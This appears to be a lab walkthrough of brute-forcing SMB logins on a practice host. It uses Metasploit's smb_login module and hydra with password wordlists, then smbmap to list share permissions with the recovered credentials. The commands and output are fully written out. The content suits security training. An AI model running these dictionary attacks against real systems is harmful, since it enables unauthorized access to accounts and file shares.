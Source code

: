 We're going to enumerate SMB share utilizing Metasploit and a wordlist for dictionary attacks.

```sh
msf5 > use auxiliary/scanner/smb/smb_login
msf5 auxiliary(scanner/smb/smb_login) > set rhosts 192.9.143.3
rhosts => 192.9.143.3
msf5 auxiliary(scanner/smb/smb_login) > set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
pass_file => /usr/share/wordlists/metasploit/unix_passwords.txt
msf5 auxiliary(scanner/smb/smb_login) > set smbuser jane
smbuser => jane
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 192.9.143.3:445       - 192.9.143.3:445 - Starting SMB login bruteforce
[-] 192.9.143.3:445       - 192.9.143.3:445 - Failed: '.\jane:admin',
[!] 192.9.143.3:445       - No active DB -- Credential data will not be saved!
[-] 192.9.143.3:445       - 192.9.143.3:445 - Failed: '.\jane:123456',
[-] 192.9.143.3:445       - 192.9.143.3:445 - Failed: '.\jane:12345',
[-] 192.9.143.3:445       - 192.9.143.3:445 - Failed: '.\jane:123456789',
[-] 192.9.143.3:445       - 192.9.143.3:445 - Failed: '.\jane:password',
[-] 192.9.143.3:445       - 192.9.143.3:445 - Failed: '.\jane:iloveyou',
[-] 192.9.143.3:445       - 192.9.143.3:445 - Failed: '.\jane:princess',
[-] 192.9.143.3:445       - 192.9.143.3:445 - Failed: '.\jane:1234567',
[-] 192.9.143.3:445       - 192.9.143.3:445 - Failed: '.\jane:12345678',
[+] 192.9.143.3:445       - 192.9.143.3:445 - Success: '.\jane:abc123'
[*] 192.9.143.3:445       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Another way of doing this is by using `hydra` tool:

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# hydra <a data-footnote-ref href="#user-content-fn-2">-l</a> admin <a data-footnote-ref href="#user-content-fn-3">-P</a> /usr/share/wordlists/rockyou.txt <a data-footnote-ref href="#user-content-fn-4">192.9.143.3</a> <a data-footnote-ref href="#user-content-fn-5">smb</a>
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-28 07:12:09
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 14344399 login tries (l:1/p:14344399), ~14344399 tries per task
[DATA] attacking smb://192.9.143.3:445/
<strong>[445][smb] host: 192.9.143.3   login: admin   password: password1
</strong>1 of 1 target successfully completed, 1 valid password found
</code></pre>

To check if the password is correct or not, we can use `smbmap`:

```sh
root@attackdefense:~# smbmap -H 192.9.143.3 -u admin -p password1
[+] Finding open SMB ports....
[+] User SMB session establishd on 192.9.143.3...
[+] IP: 192.9.143.3:445 Name: target-1                                          
        Disk                                                    Permissions
        ----                                                    -----------
        shawn                                                   READ, WRITE
        nancy                                                   READ ONLY
        admin                                                   READ, WRITE
        IPC$                                                    NO ACCESS
```


[^2]: login username
[^3]: Password List
[^4]: Target Host
[^5]: Protocol
[^6]: ensures that we are lookinbg for users